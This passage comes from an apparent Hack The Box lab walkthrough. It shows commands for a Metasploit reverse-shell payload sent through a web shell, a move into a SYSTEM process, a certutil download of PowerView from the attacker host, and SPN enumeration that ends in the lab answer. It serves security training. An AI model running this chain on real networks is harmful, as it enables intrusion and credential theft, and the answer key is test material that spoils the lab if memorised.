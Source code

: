 #### **Step 1: Establish Meterpreter Session**
```bash
# Setup web_delivery in msfconsole
sudo msfconsole -q
use exploit/multi/script/web_delivery
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.13  # Your HTB VPN IP
set SRVHOST 10.10.14.13
set TARGET 2
exploit

# Copy the generated PowerShell command and execute in Antak web shell
```

#### **Step 2: Migrate to Stable Process**
```bash
# In meterpreter:
ps
migrate 568  # winlogon.exe PID
getuid       # Verify NT AUTHORITY\SYSTEM
```

#### **Step 3: Download PowerView**
```bash
# On attacker machine:
wget -q https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
python3 -m http.server 8000

# In meterpreter:
shell
cd C:\
certutil.exe -f -urlcache -split http://10.10.14.13:8000/PowerView.ps1 PowerView.ps1
powershell
```

#### **Step 4: Enumerate SPNs**
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -SPN | select samaccountname

# Results show multiple accounts:
# azureconnect, backupjob, krbtgt, sqltest, sqlqa, sqldev, svc_sql, sqlprod
```

**🎯 Answer**: `svc_sql`

---

## 🔑 **Question 3: Hash Cracking**

### **🎯 Task**: "Crack the account's password. Submit the cleartext value."
